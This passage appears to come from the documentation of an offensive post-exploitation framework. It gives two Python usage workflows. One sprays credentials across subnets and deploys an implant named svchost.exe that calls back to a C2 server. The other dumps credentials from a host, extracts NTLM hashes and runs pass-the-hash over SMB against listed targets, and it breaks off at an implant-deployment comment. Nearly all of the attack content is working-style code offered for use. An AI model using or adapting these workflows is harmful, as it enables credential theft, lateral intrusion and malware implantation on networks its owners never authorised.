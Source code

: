 ### Workflow 3: Automated Mass Deployment

```python
from lateral_movement.automated_lateral import AutomatedLateralMovement

# Initialize scanner
scanner = AutomatedLateralMovement(domain='CORP')

# Add known good credentials
scanner.add_credential('admin', 'Password123', 'CORP')

# Add target networks
scanner.add_target_range('192.168.1.0/24')
scanner.add_target_range('10.10.10.0/24')

# Run automated scan with implant deployment
results = scanner.run_automated_scan(
    deploy_implants=True,
    implant_config={
        'implant_path': 'C:\\implant.exe',
        'remote_path': 'C$\\windows\\temp\\svchost.exe',
        'c2_url': 'http://10.10.10.10:8443'
    }
)

print(scanner.generate_report())
```

### Workflow 4: Pass-the-Hash Lateral Movement

```python
from lateral_movement.smb_wmi import SMBExecution
from persistence.credential_dumping import CredentialDumper

# Step 1: Dump credentials from compromised host
dumper = CredentialDumper()
creds = dumper.dump_all()

# Extract NTLM hashes
hashes = [c for c in creds if c.credential_type == 'hash']

print(f"[+] Extracted {len(hashes)} NTLM hashes")

# Step 2: Attempt pass-the-hash to other targets
targets = ['192.168.1.100', '192.168.1.101', '192.168.1.102']

for hash_cred in hashes:
    username = hash_cred.username
    ntlm_hash = hash_cred.value

    print(f"\n[*] Attempting pass-the-hash with {username}...")

    for target in targets:
        smb = SMBExecution(
            target=target,
            username=username,
            hash=ntlm_hash,
            domain='CORP'
        )

        if smb.test_connection():
            print(f"[+] Pass-the-hash successful to {target}!")

            # Deploy implant
```